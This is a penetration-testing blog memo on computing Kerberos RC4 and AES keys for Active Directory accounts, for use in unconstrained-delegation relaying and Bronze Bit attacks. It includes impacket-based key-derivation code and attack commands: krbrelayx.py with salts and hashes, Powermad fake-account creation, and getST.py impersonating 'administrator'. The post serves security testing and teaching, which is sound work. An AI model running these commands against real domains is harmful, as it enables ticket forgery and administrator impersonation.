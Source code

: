 ```yaml
---
layout: post
title: "A Note on Calculating Kerberos Keys for AD Accounts"
date: 2021-05-21 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, kerberos, unconstrained-delegation, rbcd, bronze-bit, python, krbrelayx, impacket]
---
```


A short memo on how to properly calculate Kerberos keys for different types of Active Directory accounts in context of decrypting TGS tickets during delegation attacks.

<!--cut-->

![banner.png](/assets/images/calculating-kerberos-keys/banner.png)
{:.center-image}

In order to successfully decrypt service TGS we must calculate its Kerberos key first. To do this we should obtain account's password and form the salt:

* For a user/service account the salt is built as uppercase Kerberos realm name + case sensitive username.
* For a computer account the salt is built as uppercase Kerberos realm name + the word `host` + lowercase FQDN hostname.

Let's say the domain name (Kerberos realm) is `megacorp.local`, then for user account `Bob_Adm` the salt will be `MEGACORP.LOCALBob_Adm`, and for computer account `SRV01$` the salt will be `MEGACORP.LOCALhostsrv01.megacorp.local`.

Based on the "Relaying" Kerberos attack [toolkit](https://github.com/dirkjanm/krbrelayx) (by [@dirkjanm](https://twitter.com/_dirkjan)) the keys can be calculated with the following Python code using [impacket](https://github.com/SecureAuthCorp/impacket):

```python
#!/usr/bin/env python3

from binascii import unhexlify, hexlify

from impacket.krb5 import constants
from impacket.krb5.crypto import Key, string_to_key
from Cryptodome.Hash import MD4

allciphers = {
	'rc4_hmac_nt': int(constants.EncryptionTypes.rc4_hmac.value),
	'aes128_hmac': int(constants.EncryptionTypes.aes128_cts_hmac_sha1_96.value),
	'aes256_hmac': int(constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value)
}


def printKerberosKeys(password, salt):
	for name, cipher in allciphers.items():
		if cipher == 23:
			md4 = MD4.new()
			md4.update(password)
			key = Key(cipher, md4.digest())
		else:
			fixedPassword = password.decode('utf-16-le', 'replace').encode('utf-8', 'replace')
			key = string_to_key(cipher, fixedPassword, salt)

		print(f'    * {name}: {hexlify(key.contents).decode("utf-8")}')


def printMachineKerberosKeys(domain, hostname, hexpassword):
	salt = b'%shost%s.%s' % (domain.upper().encode('utf-8'), hostname.lower().encode('utf-8'), domain.lower().encode('utf-8'))
	rawpassword = unhexlify(hexpassword)
	print(f'{domain.upper()}\\{hostname.upper()}$')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)


def printUserKerberosKeys(domain, username, rawpassword):
	salt = b'%s%s' % (domain.upper().encode('utf-8'), username.encode('utf-8'))
	rawpassword = rawpassword.encode('utf-16-le')
	print(f'{domain.upper()}\\{username}')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)
```

When performing the ["Relaying" Kerberos attack](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/) against an unconstrained delegation **computer** account, the adversary will use `krbrelayx.py` as follows:

```console
# Calculate the AES key automatically
~$ krbrelayx.py --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local --krbhexpass 16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d
# Pre-calculate the AES key and pass it as an argument
~$ krbrelayx.py -aesKey 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
```

```python
printMachineKerberosKeys(
	domain='megacorp.local',
	hostname='SRV01',
	hexpassword='16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d'
)

"""
MEGACORP.LOCAL\SRV01$
    * Salt: MEGACORP.LOCALhostsrv01.megacorp.local
    * rc4_hmac_nt: 1b8112a5c2eb2c45ba045efdca7c4848
    * aes128_hmac: 7c91cca5c6a7c1f961d977a7f3332273
    * aes256_hmac: 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
"""
```

When performing this attack against an unconstrained delegation **user** account, the adversary does not need to calculate the salt because the ticket it encrypted with RC4 by default (not salted NT hash used as key):

```console
~$ krbrelayx.py -hashes :fc525c9683e8fe067095ba2ddc971889
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='Bob_Adm',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\Bob_Adm
    * Salt: MEGACORP.LOCALBob_Adm
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 79505a4518150188087e722dec3b2567
    * aes256_hmac: b628f4549bd8c9e18b9573075a2db50a08aff7982be3185923af87ec2bffddc5
"""
```

On the other hand, when performing the [Bronze Bit attack](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) (by [@jakekarnes42](https://github.com/jakekarnes42)), the adversary leverages a fake service account (see [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)) to request the ticket which brings back AES encryption with salt (PBKDF2 from salted password used as key). Despite the fact that Powermad's function for adding fake accounts is called `New-MachineAccount`, it's actually a **service** account and the Kerberos keys should be calculated with `printUserKerberosKeys` function in terms of this note:

```console
PS > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
~$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' megacorp.local/fakemachine -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3 -force-forwardable
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='fakemachine',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\fakemachine
    * Salt: MEGACORP.LOCALfakemachine
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 3a2a5d368927e4ac0948c76b2e5e998b
    * aes256_hmac: de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3
"""
```

The same calculation can be done with [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372), [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/ConvertTo-KerberosKey.md#convertto-kerberoskey), [Mimikatz](https://github.com/gentilkiwi/mimikatz) `kerberos::hash` function or [aesKrbKeyGen](https://github.com/Tw1sm/aesKrbKeyGen).
